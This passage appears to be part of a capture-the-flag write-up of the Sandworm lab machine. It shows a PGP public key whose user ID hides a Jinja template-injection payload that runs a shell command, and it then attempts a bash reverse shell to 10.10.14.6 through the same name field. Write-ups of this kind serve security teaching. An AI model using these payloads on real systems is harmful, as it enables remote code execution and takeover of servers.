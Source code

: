    ```
   jO2lRGCWCF/dQrsAEQEAAbRLe3sgbmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFs
   c19fLm9zLnBvcGVuKCdpZCcpLnJlYWQoKSB9fSA8cmNlLWlkQHNzYS5odGI+iQHU
   BBMBCgA+FiEEBCrE8AAhJRlEHPY22E0jefQmOeQFAmVTtWcCGwMFCQPCZwAFCwkI
   BwIGFQoJCAsCBBYCAwECHgECF4AACgkQ2E0jefQmOeQrnQwAmYyosHOGz3MPf0bx
   G8AKL6DK+T7WqI0z9im57N3elpGC3YvlvOPxMiQQNmCWOm9ikrTs3bAO5HHZmzVB
   8WltecZd5z9Kfod6yV8IY4bhjxRuzAwVktQVmt3KUK3E2L0xnXFAIC+Na9BKlR4G
   kM0iRvEI1fZUNNqZsk5MjcVbn4bjLBk1kXzqxsGdzxbsRQB+B+7hmJb0+T7tBdus
   8sVjY5MHgYqGQC2N4+g7+VjC8McEsmoTi1JizljcP0vbIToYQKs1beImKJzPh7fv
   GiXeyOdoRUwmkRPasGMa5L9HvYaupuHqcWu0yfxkpUI4pqSNz34D1pmWa912xkFR
   bA7yUxXNoksfQzV9+63D7M6M93tAnbHOuXGD5V5oaCFg5QcshRYjnW86YhPUtAYs
   e+eWgrb2TGOVWELtdJzin1nwf03hqVuJrLpLQM+G/Dl1ViSmoI0EOB7ocgOF6gY2
   tCQFY8uHm3XxhQHiYwFy8QHLJjzJk3VRivtjt8/iNv+ZXgQHuQGNBGVTtWcBDADz
   DJo8yqdUSDskgB6gXm4tgFilCNSFpLSoxVDcasevvAuNxRBkP9FVXdULxTnZRWj4
   OG4Xkv6qvKP5RrspQ2GaPvM+b2ztjnpiFilJuupodkYVbbokJce+Jkn0x9XCCMPK
   MZVEF4DhyEIHZ6aRYPk2NpyaiGoilHYu4oTYniiHaajmvaIXNMZyrhiiXtkqnEu3
   nl3fbplb02Myc2Q4mCx8nAS/zHRHQumAYvFl/6CcwXjXA/lT1MTJ5X0h94q+ZLGo
   YiV1aea328MaO9P1/MdeGMzWi+LVZn8pFXQNAj138ioBJ+YIG7ERRWAGIVOQpdT5
   3RsVEr2eKogm/X+UbGXEDOa0OCzKx9cTzxzlRz82VvEecCMpciA+//Gf1xLWSE3Q
   gGn63cDk4Q+//lRAAkiIFJxyfwe683QOA08bOPb0Frx9HsInfCyOkKMhotkYXquS
   3x6NhjmYIJIOvuWJo7v4+omorXvjN7bM4/iSDsIHCDodeJTyH40gfiJacoHPqskA
   EQEAAYkBvAQYAQoAJhYhBAQqxPAAISUZRBz2NthNI3n0JjnkBQJlU7VnAhsMBQkD
   wmcAAAoJENhNI3n0JjnkE00MANCWUxIx9hrJijSpAMeyInIZUvXla43OFXERq6lN
   tnFj8l0ZkPYcLy2CsQeClfLyf7SHuXI8q12Wl4qDrIhPX2scEF7+ZZfj+9zU3UaG
   DLuyqulOKwMTromj+IBMKIj8cQiStGKSiMC8STCgx5HtYq62UjN5S0wpUMgnrXsi
   mTsy1K647j7+8BG4tm9nNmIwd/8Pr3S1et/ee+86Ru2ms+6FYFm9VKzTBCoeWeqC
   e5sr6oBwr4HJqLdFMi97ANxDmaXuPE9rNIY3ygSlJqju4UJrKslJVu6dQxIoH1jG
   HtHk9xbqFVL5ZtoIMl5V1wth8IybZxrs2MT0hwF0zvWBZS/4AinfEQJ0ssTR9tIZ
   zjC9ZY/rFWEOZ+PUAOPLByJtiokPM1gNex+Zpjbbd5gssG/KRTp46z0NloIeKtpH
   Bn3YuN/efbbjsNiZ0Wt0zh7BjyGTQAiwCl2i2bZ5P6aoJjV97jZfMEZ6XUUt3RCp
   VZmZVME7kgvVkPW/pC4bWcMdrw==
   =OcEz
   -----END PGP PUBLIC KEY BLOCK-----

   ```
4. Enter the public key and signed message into the site and submit.

The result is code execution, as the result of the `id`command is clearly there in the returned text:

![image-20231114130333970](/img/image-20231114130333970.png)

### Shell

To get a shell on Sandworm I’ll try to create a SSTI payload that connects back with a reverse shell. I learned earlier that `gpg` won’t let me have `<` or `>` in my name. Trying here fails:

```

Real name: {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
Invalid character in name
The characters '<' and '>' may not appear in name
Real name:

```
